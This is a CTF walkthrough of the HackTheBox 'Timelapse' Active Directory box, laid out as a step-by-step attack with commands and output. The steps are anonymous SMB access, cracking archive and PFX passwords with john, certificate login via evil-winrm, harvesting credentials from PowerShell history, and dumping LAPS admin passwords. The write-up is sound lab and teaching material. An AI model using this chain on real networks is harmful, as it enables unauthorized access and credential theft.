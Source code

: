 ```yaml
---
layout: post
title: HackTheBox - Timelapse
category: HackTheBox
tags: machines smb laps brute-force windows
date: 2022-08-25 17:18 +0300
---
```


![Machine logo](/assets/hackthebox/timelapse/Timelapse.png){:height="414px" width="615px"}

## Configuration:
It is very useful to append `/etc/hosts/` with ip address of the machine. It is useful to get subdomains and to not memorize the address every time.
```zsh
$ echo '10.10.11.152 timelapse.htb' | sudo tee -a /etc/hosts 
```

## Reconnaissance:
```zsh
$ nmap -p- timelapse.htb -Pn
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-29 11:10 UTC
Nmap scan report for timelapse.htb (10.10.11.152)
Host is up (0.056s latency).
Not shown: 65517 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5986/tcp  open  wsmans
9389/tcp  open  adws
49667/tcp open  unknown
49673/tcp open  unknown
49674/tcp open  unknown
49696/tcp open  unknown
62020/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 111.03 seconds
```

It looks like an `Active Directory` domain.

## Enumeration:
Let's start with smb enumeration. It is also can be done by simple `smbclient`.
```zsh
$ crackmapexec smb timelapse.htb -u 'a' -p '' --shares
SMB         timelapse.htb   445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:timelapse.htb) (signing:True) (SMBv1:False)
SMB         timelapse.htb   445    DC01             [+] timelapse.htb\a: 
SMB         timelapse.htb   445    DC01             [+] Enumerated shares
SMB         timelapse.htb   445    DC01             Share           Permissions     Remark
SMB         timelapse.htb   445    DC01             -----           -----------     ------
SMB         timelapse.htb   445    DC01             ADMIN$                          Remote Admin
SMB         timelapse.htb   445    DC01             C$                              Default share
SMB         timelapse.htb   445    DC01             IPC$            READ            Remote IPC
SMB         timelapse.htb   445    DC01             NETLOGON                        Logon server share 
SMB         timelapse.htb   445    DC01             Shares          READ            
SMB         timelapse.htb   445    DC01             SYSVOL                          Logon server share
```

We can read 2 shares without login, now we connect with `smbclient` and search.
```zsh
$ smbclient -N \\\\timelapse.htb\\Shares\\
smb: \> dir
  .                                   D        0  Mon Oct 25 15:39:15 2021
  ..                                  D        0  Mon Oct 25 15:39:15 2021
  Dev                                 D        0  Mon Oct 25 19:40:06 2021
  HelpDesk                            D        0  Mon Oct 25 15:48:42 2021

                6367231 blocks of size 4096. 1680031 blocks available
smb: \> cd Dev
smb: \Dev\> dir
  .                                   D        0  Mon Oct 25 19:40:06 2021
  ..                                  D        0  Mon Oct 25 19:40:06 2021
  winrm_backup.zip                    A     2611  Mon Oct 25 15:46:42 2021

                6367231 blocks of size 4096. 1680031 blocks available
smb: \Dev\> get winrm_backup.zip
smb: \Dev\> cd ..
smb: \> cd HelpDesk
smb: \HelpDesk\> dir
  .                                   D        0  Mon Oct 25 15:48:42 2021
  ..                                  D        0  Mon Oct 25 15:48:42 2021
  LAPS.x64.msi                        A  1118208  Mon Oct 25 14:57:50 2021
  LAPS_Datasheet.docx                 A   104422  Mon Oct 25 14:57:46 2021
  LAPS_OperationsGuide.docx           A   641378  Mon Oct 25 14:57:40 2021
  LAPS_TechnicalSpecification.docx      A    72683  Mon Oct 25 14:57:44 2021

                6367231 blocks of size 4096. 1680031 blocks available
smb: \HelpDesk\> mget *
```

winrm_backup.zip archive has a password, we will try to brute it with `john`.
```zsh
$ zip2john winrm_backup.zip > hash
$ john --wordlist=rockyou.txt hash
-- EDITED --    (winrm_backup.zip/legacyy_dev_auth.pfx)
```

legacyy_dev_auth.pfx is a `PKCS#12` file format, contains the SSL certificate (public keys) and the corresponding private keys. But it requires password to extract. Let's convert it to hash and brute it again!
```zsh
$ pfx2john legacyy_dev_auth.pfx > hash
$ john --wordlist=rockyou.txt hash
-- EDITED --       (legacyy_dev_auth.pfx)
```

Now we got the password and able to extract a certificate and a private key. We use `openssl` library to do that.
```zsh
$ openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out private.key
$ openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out certificate.crt
```

## user.txt
Now we have a certificate and a private key. We can use them to auth into the machine with `evil-winrm`.
```zsh
$ evil-winrm -i timelapse.htb -S -k private.key -c certificate.crt
*Evil-WinRM* PS C:\Users\legacyy\Documents>
*Evil-WinRM* PS C:\Users\legacyy\Documents> cd ..
*Evil-WinRM* PS C:\Users\legacyy> type Desktop\user.txt
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX # Edited
```

## root.txt
Here we have to search. By searching in `Program Files` folder, we have to note that `LAPS` in installed and enabled. We can upload and execute `winPEAS`. It will show us a command history file.

![PowerShell history file](/assets/hackthebox/timelapse/history_file.png)

Let's open it!

```powershell
*Evil-WinRM* PS C:\Users\legacyy\Downloads> type C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString '-- EDITED --' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
```

We can see the credentials here: `svc_deploy:-- EDITED --`.

svc_deploy user is a member of `LAPS_Readers` group, which can extract `Local Administrator` password. We are using `crackmapexec` to do that.

```zsh
$ crackmapexec smb timelapse.htb -u 'svc_deploy' -p '-- EDITED --' --laps  
SMB         timelapse.htb   445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:timelapse.htb) (signing:True) (SMBv1:False)
SMB         timelapse.htb   445    DC01             [-] DC01\administrator:-- EDITED -- STATUS_LOGON_FAILURE
```

Then, we got it: `administrator:-- EDITED --`. It's time to log in and get the flag!

```zsh
$ evil-winrm -i timelapse.htb -u 'administrator' -p '-- EDITED --' -S
*Evil-WinRM* PS C:\Users\Administrator\Documents> gci -Path C:\ -Recurse -Include 'root.txt'
    Directory: C:\Users\TRX\Desktop
-ar---         7/1/2022   9:25 AM             34 root.txt
*Evil-WinRM* PS C:\Users\Administrator\Documents> type ../../TRX/Desktop/root.txt
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX # Edited
```

It was in unusual location, so we had to search for it with `Get-ChildItem`.

## Conclusion
I've really enjoyed the box. It was interesting to learn some new things.

Thank you for reading, I hope it was useful for you ❤️
